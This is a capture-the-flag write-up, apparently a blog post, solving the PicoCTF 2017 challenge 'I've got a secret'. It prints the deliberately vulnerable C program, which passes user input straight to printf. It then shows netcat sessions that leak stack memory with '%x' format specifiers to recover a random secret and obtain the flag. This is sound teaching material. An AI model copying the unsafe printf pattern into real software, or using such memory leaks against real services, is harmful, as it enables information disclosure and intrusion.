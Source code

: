 ```yaml
---
layout:     post
title:      "PicoCTF - I've Got A Secret"
subtitle:   "Write-Ups"
date:       2017-04-17 0:00:00
author:     "W3ndige"
permalink: /:title/
category: PicoCTF 2017
---
```

<h1>I've got a secret - 75 PTS</h1>

<p>Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:10750.</p>

{% highlight c %}
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}
{% endhighlight %}

<p>We also have a small hint, telling us that it is vulnerable to format string exploit. From OWASP we can learn that. </p>

<p><i>The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.</i></p>

<p>Now let's try connecting, and providing the program with some random input. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
hello
hello
Now tell my secret in hex! Secret: hello
As my friend says,"You get nothing! You lose! Good day, Sir!"

{% endhighlight %}

<p>Exactly nothing happens. But we also now that our target is some value in hex format. Let's try to use format string exploit to get these numbers from a memory. It's possible by typing a few <b>%x</b>  parameters. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 37bcd63a
Now tell my secret in hex! Secret: f7fc7c20
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 d2ad438b
Now tell my secret in hex! Secret: 8048792
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 ffa0c668
Now tell my secret in hex! Secret: ffffdd34
As my friend says,"You get nothing! You lose! Good day, Sir!"
{% endhighlight %}

<p>See how the last value changes each time we run a program. Since we now that secret is generated using <b>urandom</b>, we can guess that that's it. Let's run one last time. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 26ef02ad
Now tell my secret in hex! Secret: 26ef02ad
1ba85d212f80746e0c61b8d45bc690b6
Wow, you got it!
{% endhighlight %}

<p>Another one! </p>
